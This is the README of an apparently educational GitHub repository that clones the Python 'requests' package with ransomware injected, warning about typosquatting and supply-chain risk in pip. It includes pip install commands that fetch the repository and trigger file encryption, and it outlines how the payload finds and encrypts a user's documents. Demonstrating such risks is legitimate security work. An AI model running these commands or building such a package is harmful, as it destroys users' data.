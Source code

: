 
# MALWARE DISCLOSURE
<span style="color:red">THIS REPOSITORY IS MALWARE! Installation via pip WILL ENCRYPT YOUR FILES.</span>

This repository is a clone of the python requests package with ransomware injected into it. This project is to demonstrate. This repository constitutes `dual use content` per the [github malware policy](https://docs.github.com/en/github/site-policy/github-community-guidelines#active-malware-or-exploits).  

## Purpose

The process in which pip works is flawed. If this package was published to pypi, under a different name with a low levenshtein distance it could have catastrophic consequences. The inherent flaws in the pip package manager are multipronged.  

- pip allows for arbitrary code execution with a single install command.
  - one mistyped letter could cause irreversible damage to a developer's computer
- pypi does not actively scan for malware on their platform
  - some 3rd parties do this with a reactionary approach

This repository is not intended to be published, but to show the dangers and inherent trust that a developer must accept when using a package or library.  
Many popular packages have hundreds of dependencies. The simple and common act of including a single package in a requirements.txt or pip instal means that you trust the code of every one of these hundreds of developers. Numerous instances of supply chain attacks have occurred in recent years and this danger is very real.

## DANGER!

The following commands trigger the malware attack, and should not be run.  
`pip install git+https://github.com/parishwolfe/educational-tool-ransomware`  
`pip3 install git+https://github.com/parishwolfe/educational-tool-ransomware`  
`python3 -m pip install git+https://github.com/parishwolfe/educational-tool-ransomware`  

A decryption tool is installed with this ransomware, the steps to decrypt are as follows:

- navigate to your desktop, and read RANSOM.txt
- copy the encryption key from RANSOM.txt
- navigate to your home directory, there you will find malware.py
- move RANSOM.txt into your home drive
- run `python3 malware.py encryption_key`

**NOTE** a double encryption scenario is possible, if this occurs, your data will be lost forever!!

The action of this repository is as follows:

- determine the operating system
- recursively operate on `my documents`|`/home/${USER}`|`/Users/${USER}` for windows|linux|mac
- Flag any file with an indication of sensitive information in the filename, (i.e. 2020_tax, mortgage-application, bitcoinWallet)
  - a real malicious script would post these files to some file hosting site
- encrypt all files in the user's documents folder
- show ransom demands (with password to decrypt) as RANSOM.txt on your desktop

## Original Content

---

# Requests

**Requests** is a simple, yet elegant, HTTP library.

```python
>>> import requests
>>> r = requests.get('https://api.github.com/user', auth=('user', 'pass'))
>>> r.status_code
200
>>> r.headers['content-type']
'application/json; charset=utf8'
>>> r.encoding
'utf-8'
>>> r.text
'{"type":"User"...'
>>> r.json()
{'disk_usage': 368627, 'private_gists': 484, ...}
```

Requests allows you to send HTTP/1.1 requests extremely easily. There’s no need to manually add query strings to your URLs, or to form-encode your `PUT` & `POST` data — but nowadays, just use the `json` method!

Requests is one of the most downloaded Python package today, pulling in around `30M downloads / week`— according to GitHub, Requests is currently [depended upon](https://github.com/psf/requests/network/dependents?package_id=UGFja2FnZS01NzA4OTExNg%3D%3D) by `500,000+` repositories. You may certainly put your trust in this code.

[![Downloads](https://pepy.tech/badge/requests/month)](https://pepy.tech/project/requests)
[![Supported Versions](https://img.shields.io/pypi/pyversions/requests.svg)](https://pypi.org/project/requests)
[![Contributors](https://img.shields.io/github/contributors/psf/requests.svg)](https://github.com/psf/requests/graphs/contributors)

## Installing Requests and Supported Versions

Requests is available on PyPI:

```console
$ python -m pip install requests
```

Requests officially supports Python 2.7 & 3.6+.

## Supported Features & Best–Practices

Requests is ready for the demands of building robust and reliable HTTP–speaking applications, for the needs of today.

- Keep-Alive & Connection Pooling
- International Domains and URLs
- Sessions with Cookie Persistence
- Browser-style TLS/SSL Verification
- Basic & Digest Authentication
- Familiar `dict`–like Cookies
- Automatic Content Decompression and Decoding
- Multi-part File Uploads
- SOCKS Proxy Support
- Connection Timeouts
- Streaming Downloads
- Automatic honoring of `.netrc`
- Chunked HTTP Requests

## API Reference and User Guide available on [Read the Docs](https://requests.readthedocs.io)

[![Read the Docs](https://raw.githubusercontent.com/psf/requests/main/ext/ss.png)](https://requests.readthedocs.io)

## Cloning the repository

When cloning the Requests repository, you may need to add the `-c
fetch.fsck.badTimezone=ignore` flag to avoid an error about a bad commit (see
[this issue](https://github.com/psf/requests/issues/2690) for more background):

```shell
git clone -c fetch.fsck.badTimezone=ignore https://github.com/psf/requests.git
```

You can also apply this setting to your global Git config:

```shell
git config --global fetch.fsck.badTimezone ignore
```

---

[![Kenneth Reitz](https://raw.githubusercontent.com/psf/requests/main/ext/kr.png)](https://kennethreitz.org) [![Python Software Foundation](https://raw.githubusercontent.com/psf/requests/main/ext/psf.png)](https://www.python.org/psf)
